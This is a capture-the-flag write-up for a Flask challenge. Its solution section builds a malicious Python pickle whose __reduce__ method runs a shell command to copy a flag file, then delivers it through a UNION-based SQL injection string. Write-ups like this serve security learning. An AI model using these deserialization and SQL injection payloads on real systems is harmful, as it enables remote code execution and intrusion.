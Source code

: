# Skills involved: Python

This is a very easy challenge. I'm jotting this down because it took me longer than expected, due to me not being familiar with Flask templates.

<details>
  <summary> Hint 1: </summary>
  
  With minimal googling you should know the potential vector.
</details>
<details>
  <summary> Hint 2: </summary>
  
  After you built the payload, how and where can it be used?
</details>
<details>
  <summary> <b>Solution:</b> </summary>
  
  <br/>
  
  Python pickles are notorious for having the `__reduce__` method for easy code execution. In case you don't know what Python pickles are, here's [a simple guide from Snyk](https://snyk.io/blog/guide-to-python-pickle/)
  ).
 
  
  An example payload can be easily created, modifying [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Python.md).
  
```py
import pickle, os
from base64 import b64encode

class Evil(object):
    def __reduce__(self):
        return (os.system,("cp /app/flag.txt /app/application/static",))

e = Evil()
evil_token = b64encode(pickle.dumps(e))
```
  
  It took me some time to understand how the flask application works, but basically it pickles all individual entries and pipe the `data` field to depickle it.
  
  There's a SQL injection entry point as well. At first I tried to insert an item and got *you can only execute 1 statement at a time* error. Fortunately changing the selected value with `UNION` was good enough.
  
  **Final payload**: `5' UNION SELECT 'gASVQwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjChjcCAvYXBwL2ZsYWcudHh0IC9hcHAvYXBwbGljYXRpb24vc3RhdGljlIWUUpQu';--`
</details>
